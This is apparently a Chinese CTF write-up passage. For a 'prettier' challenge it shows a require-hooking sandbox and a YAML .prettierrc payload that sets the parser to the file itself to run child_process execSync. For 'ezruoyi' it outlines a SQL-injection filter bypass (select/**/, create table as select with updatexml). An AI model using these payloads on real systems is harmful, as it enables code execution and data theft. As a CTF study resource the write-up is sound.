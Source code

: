 prettie fw.js

```javascript
const Module = require('module')
const oldRequire = Module.prototype.require
Module.prototype.require = function (id) {
  if (typeof id !== 'string') {
    throw new Error('Bye')
  }
  const isCore = Module.isBuiltin(id)
  if (isCore) {
    if (!/fs|path|util|os/.test(id)) {
      throw new Error('Bye, ' + id)
    }
  } else {
    id = Module._resolveFilename(id, this)
  }
  return oldRequire.call(oldRequire, id)
}
process.dlopen = () => {}
```

fw.js 利用 prototype hook require 函数并进行白名单限制

查了下 prettier 官方文档

[https://prettier.io/docs/en/options.html#parser](https://prettier.io/docs/en/options.html#parser)

[https://prettier.io/docs/en/configuration.html](https://prettier.io/docs/en/configuration.html)

我们可以通过 parser 参数来指定格式化代码的 parser, 如果指定 parser 为 `.prettierrc` 本身, 然后结合 `module.exports` 就可以造成命令执行 (这里我也不知道该怎么解释, 不会 nodejs 呜呜)

```yaml
parser: ".prettierrc"
xxxzzz: module.exports = () => {return global.process.mainModule.constructor._load('child_process').execSync('/readflag').toString();}
```

`.prettierrc` 得改成 yaml 格式, 因为这样子可以兼容 js 的语法(前面的 `parser:` `xxxzzz:` 相当于 label, 不会造成语法错误)

![image-20221213213922978](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212132139107.png)

## ezruoyi

赛后看 wp 复现的, 应该是个 0day (?)

注入点位置

![image-20221213223124280](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212132231358.png)

filterKeyword 方法

![image-20221213223150543](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212132231620.png)

一眼 `select/**/` 绕过

然后这里好像必须得执行 create table 操作, 于是利用 `create table xxx as select` 来执行 select 查询 + updatexml 报错注入

![image-20221213223029316](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212132230479.png)
